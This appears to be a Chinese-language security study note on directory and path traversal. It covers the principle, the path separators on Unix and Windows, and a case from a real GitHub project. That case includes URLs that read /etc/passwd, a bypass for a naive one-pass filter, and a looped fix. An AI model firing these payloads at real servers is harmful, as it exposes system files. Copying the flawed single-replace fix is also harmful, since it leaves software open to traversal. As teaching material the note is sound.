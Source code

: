 ### 简介

* 目录穿越 Directory traversal/ 路径穿越 Path traversal
* 漏洞原理:攻击者通过可控的输入，以"参数值"、"畸形文件"等形式，将构造的"路径"传递给后端逻辑，实现路径穿越。
* 漏洞危害:任意文件读取、写入、删除、覆盖、修改...

### 测试方法

构造payload系统相关

| |root directory|directory separator|
|:-------------:|--|-----|
|Unix-like OS|`/`|`/`|
|Windows|`<drive letter>:\`|`\` or `/`|


### 实例1

https://github.com/prahladyeri/http-live-simulator/commit/354644525f1626c5921abac10913c0d47f1f1433

可实现任意文件读取
```
http://localhost:8080//../../../../etc/passwd
```

第1次修复 将`/../`替换为空 仅替换一次(绕过方式 `/./.././` )
```
pathname = pathname.replace("/../",""); //fix for path traversal bug

//bypass http://localhost:8080/./../././../././../././.././etc/passwd
```

第2次修复 将`/../`替换为空 循环替换 直到不存在`/../`为止
```
while(pathname.indexOf("/../") != -1) {
		pathname = pathname.replace("/../",""); //fix for path traversal bug
	}
```
